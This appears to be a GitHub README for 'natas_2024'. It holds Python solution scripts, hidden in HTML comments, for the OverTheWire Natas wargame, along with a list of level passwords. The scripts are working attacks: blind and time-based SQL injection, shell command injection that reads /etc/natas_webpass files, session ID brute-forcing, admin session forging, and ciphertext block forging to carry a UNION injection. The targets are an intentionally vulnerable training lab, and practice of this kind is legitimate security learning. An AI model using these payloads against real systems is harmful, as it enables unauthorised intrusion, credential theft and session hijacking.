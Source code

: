 # natas_2024




<!-- import requests -->

<!-- chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890" -->
<!-- 
password = "hPkjKYvi"
url = "http://natas15.natas.labs.overthewire.org/index.php"

basic_user = "natas15"
basic_pass = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
while len(password) <= 32:
    for testing in chars:
        data = {"username": f'natas16" AND password LIKE BINARY "{password + testing}%" #'}
        resp = requests.post(url, data=data, auth=(basic_user, basic_pass))
    
        if "This user exists." in resp.text:
            password += testing
            print(f"Current password: {password}")
            break -->

<!-- print(f"Final password: {password}") -->



<!-- secend one  -->

<!-- import requests

# Characters to test for the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# Starting with known prefix (if any)
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
# URL and authentication
url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

while len(password) < 32:
    for char in chars:
        print(f"Testing character: {char}")
        # Crafting the payload to inject into the `needle` parameter
        payload = f"$(grep ^{password}{char} /etc/natas_webpass/natas17)"
        response = requests.get(url, auth=auth, params={"needle": payload, "submit": "Search"})
        # Checking if the injected command did not return "Americanisms"
        if "Americanisms" not in response.text:
            # If the response does not contain "Americanisms", it means the prefix is correct
            password += char
            print(f"Found so far: {password}")
            break

print(f"Password for natas17: {password}")
 -->

<!-- next one -->

<!-- # natas 18

# import requests

# # Initialization
# password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
# chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
# url = "http://natas17.natas.labs.overthewire.org/"

# # Loop until the password length reaches 32 characters
# while len(password) < 32:
#     print(f"Till now password is: {password}")
#     print("Testing for ", end='')
#     for char in chars:
#         print(char, end="", flush=True)
#         data = {'username': f'natas18" and password like binary "{password}{char}%" and sleep(20) -- '}
        
#         try:
#             # Sending the POST request
#             response = requests.post(url, data=data, auth=auth, timeout=10)
#         except requests.exceptions.ReadTimeout:
#             # If a ReadTimeout exception occurs, it means the password is correct up to the current character
#             password += char
#             print("")
#             break
        
# print(f"Finished! Password is {password}") -->


<!-- natas19 -->

<!-- import requests


auth = ("natas18","6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")
url = "http://natas18.natas.labs.overthewire.org/index.php"
password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"

for i in range(1,640):
    cookies = {"PHPSESSID": str(i) }
    response = requests.get(url, auth=auth, cookies=cookies )
    print(i)
    
    if "regular user" not in response.text:
        print(response.text) -->





<!-- natas 20 -->

<!-- 
import requests

def hex2ascii(s):
    ret = ""
    for c in s:
        coded = hex(ord(c))[2:]
        if len(coded) == 1:
            coded = '0' + coded  # Ensure two characters per byte
        ret += coded
    return ret

auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")
url = "http://natas19.natas.labs.overthewire.org/index.php"
password = "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw"

for i in range(1, 640):
    session_id = hex2ascii(f"{i}-admin")
    cookies = {"PHPSESSID": session_id}
    res = requests.get(url, auth=auth, cookies=cookies)
    
    print(i, session_id)
    
    if "regular user" not in res.text:
        print(res.text)
        break  # Exit the loop once the correct session is found
 -->




<!-- natas 22



import requests

target = 'http://natas21.natas.labs.overthewire.org'
auth = ('natas21', 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

exp_tar='http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'


#First POST request to get session of admin from exp_tar
session=requests.Session()
response = session.post(exp_tar, auth=auth)
admin_session = session.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
response = requests.get(target, auth=auth,cookies={"PHPSESSID":admin_session})
print(response.text)



 -->





<!-- natas28 -->

<!-- 




import requests
import urllib
import base64

url = "http://natas28.natas.labs.overthewire.org"
s = requests.Session()
s.auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

# First we generate a baseline for the header/footer
data = {'query':10 * ' '}
r = s.post(url, data=data)
baseline = urllib.parse.unquote(r.url.split('=')[1])
baseline = base64.b64decode(baseline.encode('utf-8'))
header = baseline[:48]
footer = baseline[48:]

# We generate the ciphertext query and parse the result
sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query':sqli}
r = s.post(url, data=data)
exploit = urllib.parse.unquote(r.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))

# We computer the size of our payload
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1 
nblocks = int(nblocks / 16)

# Then, we forge the query
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = s.get(search_url, params={"query":final_ciphertext})

print(resp.text)





 -->

<!-- natas30  -->


<!-- 

import requests

auth = ('natas30','WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')
data = {'password':'ali', 'username': ["'%' or 1 # ", 2]}
url = 'http://natas30.natas.labs.overthewire.org'

answer =  requests.post(url, data=data , auth=auth).text
print(answer)


 -->

<!-- last levels password update 2024 -->



<!-- natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne -->
<!-- natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj -->
<!-- natas29:31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns -->
<!-- natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH -->
<!-- <!-- natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y -->
<!-- <!-- natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -->
<!-- <!-- natas34:j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY -->



 


